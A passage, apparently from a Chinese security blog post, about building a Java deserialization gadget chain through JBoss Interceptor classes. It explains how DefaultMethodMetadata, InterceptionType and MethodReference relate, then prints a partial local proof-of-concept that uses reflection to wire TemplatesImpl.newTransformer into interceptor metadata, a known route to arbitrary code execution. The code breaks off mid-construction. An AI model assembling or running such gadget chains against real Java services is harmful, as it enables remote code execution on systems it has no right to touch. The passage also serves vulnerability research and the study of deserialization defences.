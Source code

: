   
类进行创建, 而
```
DefaultMethodMetadata
```

  
又会引出更多的关系:  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/tiaKRx8m4Wn6uT0Y9G3mhXadKvVPGSmCs4rnGiaYZ2EvUoNlKRSRy7pY5ZpJiaYLib6elxZuo9YkKQsLcYJP7RcFOg/640?wx_fmt=png&from=appmsg "")  
  
一边是基于
```
InterceptionType
```

  
枚举类的
```
Set
```

  
, 一边是使用
```
MethodReference.of
```

  
来进行生成一个
```
MethodReference
```

  
, 最终可以编写出如下本地 POC:  

```
package com.heihu577;

import com.sun.org.apache.bcel.internal.Repository;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import org.jboss.interceptor.builder.MethodReference;
import org.jboss.interceptor.proxy.InterceptorInvocation;
import org.jboss.interceptor.reader.DefaultMethodMetadata;
import org.jboss.interceptor.spi.metadata.MethodMetadata;
import org.jboss.interceptor.spi.model.InterceptionType;
import sun.misc.Unsafe;

import javax.interceptor.InvocationContext;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.lang.reflect.Method;
import java.util.HashSet;
import java.util.Set;

public class POC {
    public static void main(String[] args) throws Exception {
        // 准备 TemplatesImpl
        TemplatesImpl templatesImpl = getTemplatesImpl();
        // 准备 MethodMetadata
        HashSet<Object> hsSet = new HashSet<>();
        hsSet.add(InterceptionType.POST_ACTIVATE);
        Constructor<DefaultMethodMetadata> defaultMethodMetadataConstructor = DefaultMethodMetadata.class.getDeclaredConstructor(Set.class, MethodReference.class);
        defaultMethodMetadataConstructor.setAccessible(true);
        MethodMetadata defaultMethodMetadata = (MethodMetadata) defaultMethodMetadataConstructor.newInstance(hsSet,
                MethodReference.of(TemplatesImpl.class.getMethod(&#34;newTransformer&#34;), true));
        // 准备 InterceptorInvocation$InterceptorMethodInvocation
```